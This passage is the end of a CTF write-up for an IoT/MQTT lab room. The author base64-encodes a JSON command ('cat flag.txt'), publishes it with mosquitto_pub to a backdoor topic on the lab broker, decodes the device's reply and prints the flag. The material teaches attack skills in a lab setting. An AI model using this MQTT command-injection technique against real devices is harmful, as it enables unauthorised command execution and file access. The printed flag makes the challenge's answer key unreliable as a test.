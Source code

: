 - After decoding the string, we got flag location.

  ```
  echo 'eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9' | base64 -d
  {"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}
  ```

- Now just read the flag with `cat`.

  ```
  {"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}

  echo '{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}' | base64   
  eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0K
  
  mosquitto_pub -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0K" -h 10.10.11.207 -d

  mosquitto_sub -t '#' -h 10.10.11.207 -v
  storage/thermostat {"id":14455707374372220000,"temperature":24.212593}
  XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0K
  U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9
  patio/lights {"id":6140930077618560691,"color":"RED",
  
  echo 'eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9' | base64 -d
  {"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{18d44fc0707ac8dc8be45bb83db54013}\n"} 
  ```

- LEGOOOOOOOOOOOOOOO! First IoT pwnage! Such a fun room!
---

## 🏁 Flags

- **Flag**: `flag{18d44fc0707ac8dc8be45bb83db54013}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much, just learning MQTT.`

- What did I learn?
  `A lot, this is my first IoT pwnage and I had so much fun doing it!`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
